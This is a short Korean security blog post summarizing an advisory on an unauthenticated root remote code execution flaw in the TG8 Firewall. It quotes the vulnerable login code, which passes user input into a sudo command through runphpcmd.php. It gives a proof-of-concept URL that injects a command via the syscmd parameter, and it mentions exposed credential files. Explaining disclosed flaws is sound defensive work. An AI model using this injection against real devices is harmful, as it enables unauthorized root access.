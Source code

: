 ```yaml
---
title: "[하루한줄] TG8 Firewall의 PreAuth 원격 코드실행 취약점"
author: L0ch
tags: [L0ch, rce, pre-auth, firewall]
categories: [1day1line]
date: 2021-05-04 14:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

[SSD Advisory – TG8 Firewall PreAuth RCE and Password Disclosure](https://ssd-disclosure.com/ssd-advisory-tg8-firewall-preauth-rce-and-password-disclosure/)

## Target

- TG8 Firewall

## Explain
[TG8 Security](http://www.tg8security.com/firewall.html) 사의 방화벽에서 인증되지 않은 root 권한의 원격 코드 실행 취약점이 발견되어 세부 정보가 공개되었습니다.

취약점은 인증 요청을 처리하는 `index.php` 에 존재하며 아래와 같습니다.

```php
...
  function checkLogin() {
    var username = $('input[name=u]').val();
    var pass = $('input[name=p]').val();

    var cmd = 'sudo /home/TG8/v3/syscmd/check_gui_login.sh ' + username + ' ' + pass;
    $.ajax({
      url: "runphpcmd.php",
      type: "post",
      dataType: "json",
      cache: "false",
      data: {
        syscmd: cmd
      },
      success: function (x) {
        if (x == 'OK') {
          ok(username);
        } else {
          failed();
        }
      },
      error: function () {
      ok(username);
        // alert("failure to excute the command");
      }
    })
  }
...
```

인증 요청을 받으면 로그인을 처리하는 `check_gui_login.sh` 에 `username`과 `pass`를 매개변수로 명령을 구성합니다. 이는 `runphpcmd.php` 의 `syscmd`로 전달되고 root 권한으로 `check_gui_login.sh`가 실행됩니다. 그러나  `syscmd`에 대한 어떠한 검사도 존재하지 않아 해커가 임의의 코드를 포함한 `syscmd`를 매개변수로 `runphpcmd.php`에 직접 요청하면 원격 코드 실행이 트리거 됩니다. 

root 권한으로 `ls` 명령어를 실행하는 PoC는 다음과 같습니다.

```c
http://<server>/admin/runphpcmd.php?syscmd=sudo+%2Fhome%2FTG8%2Fv3%2Fsyscmd%2Fcheck_gui_login.sh+%3Bls%3B++local
```

제보자는 해당 취약점 외에도 액세스 권한 설정 미흡으로 인해 인증되지 않은 사용자가 `/data/` 디렉터리의 자격 증명 파일에 접근할 수 있는 정보유출 취약점 또한 발견했습니다.

이를 해당 방화벽 장비의 공급 업체인 TG8에게 SNS 및 이메일을 통해 여러 차례 제보하였으나 공급 업체로부터 어떠한 응답도 받지 못했다고 밝혔으며, 해당 장비를 사용하고 있다면 즉시 외부 인터넷으로 통하는 포트를 차단할 것을 강력하게 권고했습니다.

